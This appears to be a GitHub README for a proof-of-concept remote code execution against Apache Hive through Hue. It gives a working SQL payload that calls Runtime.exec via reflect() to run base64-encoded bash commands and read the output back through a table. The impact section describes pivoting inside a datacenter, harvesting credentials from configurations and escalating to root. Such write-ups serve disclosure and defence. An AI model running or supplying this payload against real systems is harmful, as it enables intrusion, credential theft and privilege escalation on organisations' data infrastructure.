 # hue-hive-rce
 
## Preparation
```sql
create table workspace_hs.out as select "Hendrik Schultze @ InnoGames";
truncate table workspace_hs.out;
```

## Command and get output
```sql
SELECT reflect("java.lang.Runtime", "exec", concat("bash -c {echo,",base64(encode("${cmd} &> /tmp/out", 'UTF-8')),"}|{base64,-d}|{bash,-i}"));
truncate table workspace_hs.out;
LOAD DATA LOCAL INPATH '/tmp/out' INTO TABLE workspace_hs.out;
select * from workspace_hs.out;
```

### Example
![alt text](screen-2020-04-28-11-20-20.png "Usage example")

### Impact
Depending on the user (`hive` or worst case `root`) we can at least save and run script inside the datacenter from `/tmp`.
Therefore we can use that server as base for future attacks in the whole environment, checking the local server (`ss -tulpn`,`ps auxf`, enumeration...) or watching for other server.
Often internal Big Data systems are not fully protected because they are setup insecure by default.
These allows us to read configurations (potential credentials etc) from the Apache ResourceManage, Apache ZooKepe, etc.
As these BigData stack offers many APIs, we can submit MapRed Jobs, executed on HDFS, connect to Apache Kafka or many other options.
If we should not be `root`, we often can easly to escalate to `root` e.G. with [logrotten](https://github.com/whotwagner/logrotten).
